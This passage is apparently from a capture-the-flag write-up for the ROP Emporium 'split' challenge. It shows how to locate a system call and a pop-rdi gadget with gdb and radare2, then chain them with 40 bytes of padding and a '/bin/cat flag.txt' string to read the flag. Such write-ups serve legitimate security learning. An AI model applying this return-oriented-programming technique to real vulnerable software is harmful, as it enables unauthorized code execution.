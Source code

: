 * finally:

roping all that together for our payload to look:
`pattern + pop_rdi_addr + bin_cat_string_address + system_call_address`
`pattern is 40 ==> pattern = "A"\*40`

## Recon

same as previous [challenge](https://github.com/l0x539/CTFs-writeups/tree/master/ropemporium/ret2win)

running `readelf -s split` you'll notice a function called `usefulFunction` which calls `system`

- Note
if you do the same as the last video and return to that function you'll receive the output of ls, which lists the current directory files and folders

we need to make it read the flag.txt instead using /bin/cat flag.txt string

## Execution

* using gdb to examine the addresses we need.

1. finding the address system inside `usefulFunction`

```
gef➤  disass usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400742 <+0>:     push   rbp
   0x0000000000400743 <+1>:     mov    rbp,rsp
   0x0000000000400746 <+4>:     mov    edi,0x40084a
   0x000000000040074b <+9>:     call   0x400560 <system@plt>
   0x0000000000400750 <+14>:    nop
   0x0000000000400751 <+15>:    pop    rbp
   0x0000000000400752 <+16>:    ret    
End of assembler dump.
```

system is being called at `0x000000000040074b`

`system address = 0x000000000040074b`

2. find the address of `pop rdi`:

we're looking for an address in the program that executes instruction as follow:
```
	pop rdi
	ret
```

to find that instruction address you can use [radare2](https://github.com/radareorg/radare2):

run the file in radare2
```
$ r2 split
```

to find all th:
```
[0x004005b0]> /R pop rdi;ret
  0x004007c3                 5f  pop rdi
  0x004007c4                 c3  ret
```
